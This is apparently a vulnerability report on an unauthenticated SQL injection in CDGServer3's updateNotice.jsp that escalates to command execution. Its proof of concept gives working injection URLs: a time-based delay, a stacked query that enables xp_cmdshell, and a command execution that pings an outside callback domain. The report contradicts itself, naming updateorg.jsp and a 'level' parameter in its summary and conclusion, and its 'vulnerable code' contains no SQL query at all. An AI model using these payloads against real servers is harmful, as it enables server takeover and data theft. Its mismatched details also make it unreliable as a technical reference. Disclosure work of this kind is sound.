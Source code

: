 ![image-20250316220054440](./assets/image-20250316220054440.png)

# Vulnerability Report

## Title: Unauthenticated SQLI Leading to Remote Code Execution (RCE)

### Summary:

A SQL injection vulnerability was discovered in the `updateorg.jsp` endpoint, specifically in the `level` parameter. This vulnerability allows an unauthenticated attacker to execute arbitrary code on the MSSQL server, potentially gaining full control over the server.

### Affected Endpoint:

`/CDGServer3/pubinfo/updateNotice.jsp`

### Vulnerability Type:

RCE

### Vulnerable Code:

```jsp
<%
	String noticeId = request.getParameter("noticeId");//初始化参数
	int currPage = RequestUtil.getIntParameter(request,"curpage",1); //当前是第几页
	NoticeDao dao = new NoticeDao();
	NoticeInfo info = dao.findById(noticeId);
	Constant constant = Constant.instance;
	String downloadPath=  constant.UPLOAD_RELATIVE_PATH + constant.UPLOADEDDOWN_TEMP_PATH;
%>
```

### Proof of Concept (PoC):

1. Time-based SQL Injection:

   ```
   https://uri/CDGServer3/pubinfo/updateNotice.jsp?noticeId=1';WAITFOR DELAY '0:0:10'--
   ```

2. Enabling `xp_cmdshell`:

   ```
   https://uri/CDGServer3/pubinfo/updateNotice.jsp?noticeId=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
   ```

3. Executing arbitrary command:

   ```
   https://uri/CDGServer3/pubinfo/updateNotice.jsp?noticeId=1';exec master..xp_cmdshell 'ping fewfwefs.ipv6.1433.eu.org.'--
   ```

### Impact:

This vulnerability allows an attacker to execute arbitrary commands on the server, which can lead to:

- Complete server compromise.
- Data exfiltration.
- Denial of Service (DoS) by executing resource-intensive commands.
- Potential lateral movement within the internal network.

### Recommendation:

1. **Input Validation and Sanitization:** Ensure that all user inputs are properly sanitized and validated. Use prepared statements with parameterized queries to prevent SQL injection.
2. **Least Privilege Principle:** Ensure the database user has the least privileges necessary for the application to function.
3. **Disable Dangerous Features:** Disable features like `xp_cmdshell` unless absolutely necessary.
4. **Regular Security Audits:** Conduct regular security audits and code reviews to identify and fix vulnerabilities.

### Conclusion:

The RCE in the `updateorg.jsp` endpoint poses a significant security risk. Immediate remediation steps should be taken to sanitize user inputs and secure the database against unauthorized access and code execution.

### References:

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [Mitigation Techniques](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)